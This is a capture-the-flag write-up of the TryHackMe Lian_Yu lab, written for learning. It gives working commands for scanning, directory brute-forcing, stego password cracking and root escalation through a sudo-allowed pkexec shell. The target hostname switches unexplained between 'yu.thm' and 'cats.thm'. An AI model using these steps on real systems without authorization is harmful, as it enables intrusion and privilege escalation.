

# Lian_Yu — TryHackMe Writeup

**Room:** [Lian_Yu](https://tryhackme.com/room/lianyu)
**Difficulty:** Easy

This is one of the first boot2root rooms I worked through end-to-end. The writeup follows the path I actually took, including the parts where I got stuck. Flags are not included so the room stays solvable for others.

---

## Recon

1. #### Deploy the VM and Start the Enumeration.

Added the IP to `/etc/hosts` as `yu.thm` for convenience, then ran a full nmap scan:

```
nmap -A -p- -T4 -oN lianyu.nmap yu.thm
```

Results:

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.2
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp    open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44112/tcp   status
|   100024  1          46607/tcp6  status
|   100024  1          51310/udp6  status
|_  100024  1          56131/udp   status
```
We can see that FTP, SSH and HTTP ports are open.
I tried anonymous FTP first, but it was rejected. Moved to the web on port 80.

---

## Web enumeration


The homepage is a static Arrowverse-themed page.
On the homegage, we don't find any useful information. So, we can move on to gobuster to look for any hidden directories.

2. #### What is the Web Directory you found?

```
gobuster dir -u http://yu.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
This gave me:
```
/island (Status: 301)
```

This gave me a second-level directory. I repeated the same approach, visit the page on our browser: 


At one point gobuster with `common.txt` found nothing. I checked the source of the current page for clues about file extensions and added `-x` with thematic extensions:

```
gobuster dir -u http://cats.thm/<deep_path> -w /usr/share/wordlists/dirb/common.txt -x <ext> -t 50
```

That found a file containing an encoded string. It didn't decode as base64. Pasted it into CyberChef and used the *Magic* operation, which detected base58. Decoded output gave me a username and password.

> **Note to self:** when base64 fails, try base58 / base32 / base62 before assuming the data is encrypted. CyberChef's Magic mode saves a lot of time here.

---

## FTP foothold

Logged into FTP with the credentials from the web:

```
ftp cats.thm
```

Directory listing:

```
-rw-------    1 1001  1001      44 .bash_history
-rw-r--r--    1 1001  1001     220 .bash_logout
-rw-r--r--    1 1001  1001    3515 .bashrc
-rw-r--r--    1 0     0       2483 .other_user
-rw-r--r--    1 1001  1001     675 .profile
-rw-r--r--    1 0     0     511720 Leave_me_alone.png
-rw-r--r--    1 0     0     549924 Queen's_Gambit.png
-rw-r--r--    1 0     0     191026 aa.jpg
```

What caught my attention: the three image files and `.other_user` are owned by **root (UID 0)**, while the normal dotfiles are owned by UID 1001. That's the signal those files were dropped there on purpose.

Switched to binary mode and downloaded everything:

```
ftp> binary
ftp> get .other_user
ftp> get aa.jpg
ftp> get Leave_me_alone.png
ftp> get Queen's_Gambit.png queens_gambit.png
ftp> bye
```

`.other_user` turned out to be a long DC character biography pasted twice. The character's name (lowercased, no spaces) is the second user on the box. I confirmed this later when SSH accepted that username.

---

## Steganography

Three image files, so I triaged each one:

```
file aa.jpg Leave_me_alone.png queens_gambit.png
exiftool *.png *.jpg
binwalk *.png *.jpg
```

### The broken PNG

`Leave_me_alone.png` wouldn't open. `file` reported it as `data`, not PNG. Hex dump showed why:

```
00000000: 5845 6fae 0a0d 1a0a ...
```

A valid PNG starts with `89 50 4E 47 0D 0A 1A 0A`. The first four bytes were replaced with `XEo.` and bytes 4–5 were swapped. The rest of the file (`IHDR` and beyond) was untouched, so it was just the magic bytes I needed to fix.

I used Python:

```python
data = open('Leave_me_alone.png','rb').read()
fixed = b'\x89PNG\r\n\x1a\n' + data[8:]
open('leave_fixed.png','wb').write(fixed)
```

`dd` would have worked too:

```
printf '\x89PNG\r\n\x1a\n' | dd of=Leave_me_alone.png bs=1 count=8 conv=notrunc
```

After repair, `file` confirmed it as a PNG and it opened normally. The image itself was a hint, not a container — no payload to extract.

### steghide on the JPEG

`aa.jpg` was the one with an actual payload:

```
steghide extract -sf aa.jpg
```

I tried a few thematic passphrases before one worked. The extracted file contained a password for the second user.

If guessing had failed I would have run:

```
stegseek aa.jpg /usr/share/wordlists/rockyou.txt
```

`stegseek` is much faster than `stegcracker`.

---

## SSH foothold

```
ssh <user>@cats.thm
```

Password from the steg extraction worked. User flag is in the home directory.

---

## Privilege escalation

First thing after getting a shell — check sudo permissions:

```
sudo -l
```

Output:

```
User <user> may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

What this means:

- `(root)` — runs as root.
- `PASSWD:` — needs my password (I have it).
- `/usr/bin/pkexec` — the only binary allowed.

I didn't recognize `pkexec` at first, so I looked it up. It's part of PolicyKit and exists specifically to **execute other programs** as another user. Whitelisting it through sudo means I can ask it to run a shell as root.

[GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/) confirmed this pattern.

```
sudo /usr/bin/pkexec /bin/bash
# password
# id → uid=0(root)
```

Root flag is in `/root/`.

> CVE-2021-4034 (PwnKit) also affects this version of `pkexec`, but the box was made before that CVE was disclosed, and the sudo misconfig was clearly the intended path. I mention it for completeness.

---

## What I learned

**Read before brute-forcing.** Two levels of this box were solvable just by reading HTML. Gobuster is a fallback when reading runs out, not the first thing to reach for.

**File ownership tells a story.** The root-owned files in a user's home were obviously placed there. `ls -la` is more informative than I used to think.

**Knowing file signatures pays off.** I now have PNG, JPEG, ZIP, ELF, and PE magic bytes memorized. Spotting a broken header in a hex dump beats running every forensic tool on the file.

**Sudo with one binary isn't automatically safe.** It depends on what that binary can do. `pkexec`, `vim`, `find`, `awk`, `less`, `python`, `tar`, `man` — all of them can spawn a shell if sudo lets you run them. Before whitelisting anything, check GTFOBins first.

**`stegseek` over `stegcracker`.** Much faster, same job.

---

## MITRE ATT&CK mapping

| Phase | Technique | ID |
|-------|-----------|-----|
| Reconnaissance | Active scanning (nmap) | T1595.001 |
| Reconnaissance | Vulnerability scanning (nmap NSE) | T1595.002 |
| Reconnaissance | Wordlist scanning (gobuster) | T1595.003 |
| Initial Access | Valid accounts (creds from steganography) | T1078 |
| Initial Access | External remote services (SSH) | T1133 |
| Defense Evasion | Steganography | T1027.003 |
| Defense Evasion | Encoded file (base58 on web) | T1027.013 |
| Credential Access | Credentials in files | T1552.001 |
| Privilege Escalation | Abuse of sudo | T1548.003 |
| Privilege Escalation | Exploitation for privesc (pkexec) | T1068 |

---

## Tools used

`nmap`, `gobuster`, `curl`, browser DevTools, CyberChef, `ftp`, `file`, `exiftool`, `binwalk`, `strings`, `xxd`, `dd`, Python, `steghide`, `stegseek`, `ssh`, `sudo -l`, GTFOBins.

---

## References

- [TryHackMe — Lian_Yu](https://tryhackme.com/room/lianyu)
- [GTFOBins — pkexec](https://gtfobins.github.io/gtfobins/pkexec/)
- [PNG specification — file signature](https://www.w3.org/TR/png/#5PNG-file-signature)
- [MITRE ATT&CK Enterprise](https://attack.mitre.org/matrices/enterprise/)
